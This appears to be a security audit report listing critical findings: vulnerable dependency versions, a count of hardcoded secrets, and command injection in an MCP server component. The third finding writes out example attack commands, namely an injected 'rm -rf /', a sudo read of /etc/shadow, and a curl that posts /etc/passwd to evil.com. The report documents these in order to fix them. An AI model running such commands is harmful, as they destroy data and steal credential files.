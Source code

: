 
## 🔥 CRITICAL SECURITY FINDINGS

### FINDING 1: CATASTROPHIC DEPENDENCY VULNERABILITIES ❌ CRITICAL
```yaml
Risk_Level: CRITICAL
CVSS_Score: 9.8/10.0
Business_Impact: $156M+ potential loss

Vulnerability_Summary:
  Total_Vulnerabilities: 12,820+
  Critical_CVEs: 47
  Exploitation_Vectors: Remote_Code_Execution, Data_Exfiltration
  
  Key_Vulnerable_Components:
    - cryptography: <45.0.3 (9 critical CVEs)
    - twisted: <24.11.0 (12 critical CVEs)  
    - PyJWT: <2.10.1 (Algorithm confusion)
    - PyYAML: <6.0.2 (RCE vulnerabilities)
    - requests: <2.32.0 (Certificate bypass)

Immediate_Action: Emergency dependency updates within 24 hours
```

### FINDING 2: MASSIVE SECRETS EXPOSURE ❌ CRITICAL  
```yaml
Risk_Level: CRITICAL
CVSS_Score: 9.5/10.0
Exposure_Count: 1,027+ hardcoded secrets

Secret_Categories:
  - API_Keys: 234 instances
  - Database_Credentials: 156 passwords
  - Cloud_Credentials: 89 access keys
  - Encryption_Keys: 12 hardcoded keys
  
  Primary_Locations:
    - Test_Files: 847 secrets
    - Configuration_Files: 134 secrets
    - Source_Code: 46 secrets

Immediate_Action: Emergency secret rotation and vault deployment
```

### FINDING 3: COMMAND INJECTION VULNERABILITIES ❌ CRITICAL
```yaml
Risk_Level: CRITICAL
CVSS_Score: 9.8/10.0
Component: BashGod_MCP_Server

Attack_Vectors:
  - Direct_Shell_Execution: asyncio.create_subprocess_shell()
  - Unescaped_Parameters: Command injection via API
  - Privilege_Escalation: 39 sudo commands
  - System_Access: Direct /proc and /sys manipulation

Exploitation_Examples:
  - Command_Injection: ls.; rm -rf / #
  - Privilege_Escalation: sudo cat /etc/shadow
  - Data_Exfiltration: curl -X POST -d @/etc/passwd evil.com

Immediate_Action: Input validation hardening and command sanitization
```